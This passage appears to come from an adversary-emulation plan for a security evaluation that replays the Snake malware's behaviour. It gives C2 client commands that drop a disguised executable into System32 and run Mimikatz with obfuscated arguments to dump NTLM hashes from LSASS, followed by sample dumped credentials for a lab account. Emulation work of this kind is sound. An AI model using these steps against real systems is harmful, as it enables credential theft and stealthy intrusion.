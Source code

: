 * Wait 1 minute and then run the following command to download the snake installer:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "installer_v3.exe", "dest":"C:\\Windows\\System32\\cmu_svc.exe"}'
```

* Wait 1 minute and then instruct Snake to run Mimikatz to dump all NTLM hashes from `LSASS.exe`:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 3, "proc": "C:\\Windows\\System32\\loadperf.exe", "args": "\"pr::d\" \"slsa::lop\" \"quit\""}'
```

* :heavy_exclamation_mark: Verify that the password `Producer2!` and NTLM hash
`f3fcd61f987a97da49ce5f650b4e6539` for `ZilvinasAdmin` appears at least once in
the output.

```bash
grep '* Username : ZilvinasAdmin' logs.txt -C 5 -i
```

* This should return:
  * > ```
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >     * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >     * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >     tsPkG :	
    > --
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * Password : Producer2!
    >     kErberoS :	
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK.LOCAL
    >     * Password : (null)
    >     sSp :	
    >     crEdMan :
    > ```

### :moyai: Source Code

* [Snake Usermodule DLL](UserModule_README.md)
  * [Payload download](comms_http.cpp#L604)
  * [Generic process execution](execute.cpp#L406)
* [Mimikatz](Resources_Mimikatz.)

### :microscope: Cited Intelligence

* TBD

## Step 17 - Lateral Movement to Admin Workstation and Persistence
